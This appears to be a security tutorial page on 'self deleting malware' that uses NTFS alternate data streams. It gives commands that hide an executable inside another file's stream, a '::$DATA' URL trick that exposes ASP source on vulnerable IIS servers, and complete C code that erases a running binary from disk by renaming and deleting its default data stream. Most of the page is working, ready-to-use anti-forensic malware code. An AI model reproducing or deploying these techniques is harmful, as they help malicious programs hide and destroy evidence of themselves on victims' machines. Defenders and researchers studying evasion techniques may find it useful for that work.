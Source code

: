 # Self Deleting Malware

## Introduction

A not so well known feature of the New Technology File System (NTFS) is the support for multiple _<mark style="color:yellow;">**data streams**</mark>_. Alternate data streams allow files to contain more than one stream of data. It's purpose was primarily to allow compatibility with Macintosh systems.

Every file has at least one data stream:  **In Windows, the default data stream is** <mark style="color:yellow;">**:$DATA**</mark>.

## Data Streams

Since **:$DATA** exists on every file, it can be an alternate way to access any file. Any applications that creates, looks at, or depends on the end of a file name (or extension) should be aware of alternate data streams. <mark style="color:yellow;">**Unsanitized user input could use the :$DATA stream to change the behavior of the program.**</mark>

### Creating Alternate Data Streams

* `C:\> type C:\windows\system32\notepad.exe > c:\windows\system32\calc.exe:notepad.exe`
* `C:\> start c:\windows\system32\calc.exe:notepad.exe`

### Accessing the :$DATA Alternate Data Stream

* `C:\> start c:\textfile.txt::$DATA`

### Exploiting Data Stream to show ASP code

In some vulnerable versions of IIS, we can exploit the data stream extension to view source code.

Normal Access:

* ```
  http://www.alternate-data-streams.com/default.asp
  ```

Exploited to show code:

* ```
  http://www.alternate-data-streams.com/default.asp::$DATA
  ```



## Deleting a Running Binary

As we know it is not possible to delete a running binary on Windows, since deleting a file requires that no other process is using it.

One way to get around this is by <mark style="color:yellow;">**renaming**</mark>** the default data stream **<mark style="color:yellow;">**:$DATA**</mark>** to another name that represents a new data stream.**&#x20;

We then can we can delete the newly renamed data stream, causing the binary to be wiped from disk.

### Retrieve File Handle

We first need to retrieve the file handle of the binary.

The file handle can be retrieved using the **`CreateFile`** WinAPI. The [access flag](https://learn.microsoft.com/en-us/windows/win32/secauthz/access-mask) must be set to **`DELETE`** to provide file deletion permissions.

```c
hFile = CreateFileW(
        L"deletion.exe",
        DELETE | SYNCHRONIZE,
        FILE_SHARE_READ,
        NULL,
        OPEN_EXISTING,
        0,
        NULL
);
```

### Renaming The Default Data Stream

We can rename the default data stream of the running binary with [SetFileInformationByHandle](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-setfileinformationbyhandle) WinAPI function with the [FileRenameInfo](https://learn.microsoft.com/en-us/windows/win32/api/winbase/ns-winbase-file\_rename\_info) flag. There is a list of enum values that we can choose from.



`FILE_INFO_BY_HANDLE_CLASS Enum:`

```c
typedef enum _FILE_INFO_BY_HANDLE_CLASS {
  FileBasicInfo,
  FileStandardInfo,
  FileNameInfo,
  FileRenameInfo, // This is the flag we will use to change the filename.
  ...
  }
```

`SetFileInformationByHandle` WinAPI function:

```c
if (!SetFileInformationByHandle(
        hFile,
        FileRenameInfo,
        &pRename,
        sRename
        )) {

   wprintf(L"SetFileInformationByHandle Failed with Error %d", GetLastError());
   return -1;
};

```



<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

### Delete The Data Stream

We then delete the  `:$DATA` stream to erase the file from the disk.&#x20;

To do so, the same **`SetFileInformationByHandle`** WinAPI will be used, with a different flag, [FileDispositionInfo](https://learn.microsoft.com/en-us/windows/win32/api/winbase/ns-winbase-file\_disposition\_info) This flag marks the file for deletion when its handle is closed.

We will close and reopen the previous handle.

## Final Code

{% code fullWidth="true" %}
```c

// The new data stream name
#define NEW_STREAM L":Foobar"


BOOL DeleteSelf() {


	WCHAR                       szPath [MAX_PATH * 2] = { 0 };
	FILE_DISPOSITION_INFO       Delete                = { 0 };
	HANDLE                      hFile                 = INVALID_HANDLE_VALUE;
	PFILE_RENAME_INFO           pRename               = NULL;
	const wchar_t*              NewStream             = (const wchar_t*)NEW_STREAM;
    SIZE_T			            StreamLength	         = wcslen(NewStream) * sizeof(wchar_t);
	SIZE_T                      sRename               = sizeof(FILE_RENAME_INFO) + StreamLength;


    // Allocating enough buffer for the 'FILE_RENAME_INFO' structure
	pRename = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sRename);
	if (!pRename) {
		printf("[!] HeapAlloc Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
  
    // Cleaning up some structures
	ZeroMemory(szPath, sizeof(szPath));
	ZeroMemory(&Delete, sizeof(FILE_DISPOSITION_INFO));

	//----------------------------------------------------------------------------------------
    // Marking the file for deletion (used in the 2nd SetFileInformationByHandle call) 
	Delete.DeleteFile = TRUE;
  
    // Setting the new data stream name buffer and size in the 'FILE_RENAME_INFO' structure
	pRename->FileNameLength = StreamLength;
	RtlCopyMemory(pRename->FileName, NewStream, StreamLength);

	//----------------------------------------------------------------------------------------

    // Used to get the current file name
	if (GetModuleFileNameW(NULL, szPath, MAX_PATH * 2) == 0) {
		printf("[!] GetModuleFileNameW Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	//----------------------------------------------------------------------------------------
    // RENAMING
  
    // Opening a handle to the current file
	hFile = CreateFileW(szPath, DELETE | SYNCHRONIZE, FILE_SHARE_READ, NULL, OPEN_EXISTING, NULL, NULL);
	if (hFile == INVALID_HANDLE_VALUE) {
		printf("[!] CreateFileW [R] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	wprintf(L"[i] Renaming :$DATA to %s  ...", NEW_STREAM);

    // Renaming the data stream
	if (!SetFileInformationByHandle(hFile, FileRenameInfo, pRename, sRename)) {
		printf("[!] SetFileInformationByHandle [R] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
	wprintf(L"[+] DONE \n");

	CloseHandle(hFile);

	//----------------------------------------------------------------------------------------
    // DELETING
  
    // Opening a new handle to the current file
	hFile = CreateFileW(szPath, DELETE | SYNCHRONIZE, FILE_SHARE_READ, NULL, OPEN_EXISTING, NULL, NULL);
	if (hFile == INVALID_HANDLE_VALUE) {
		printf("[!] CreateFileW [D] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	wprintf(L"[i] DELETING ...");
	
    // Marking for deletion after the file's handle is closed
	if (!SetFileInformationByHandle(hFile, FileDispositionInfo, &Delete, sizeof(Delete))) {
		printf("[!] SetFileInformationByHandle [D] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
	wprintf(L"[+] DONE \n");

	CloseHandle(hFile);

	//----------------------------------------------------------------------------------------

    // Freeing the allocated buffer
	HeapFree(GetProcessHeap(), 0, pRename);

	return TRUE;
}

```
{% endcode %}





## Hidden Files Misc

We can confirm that the files are in fact hidden when viewing the explorer

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>
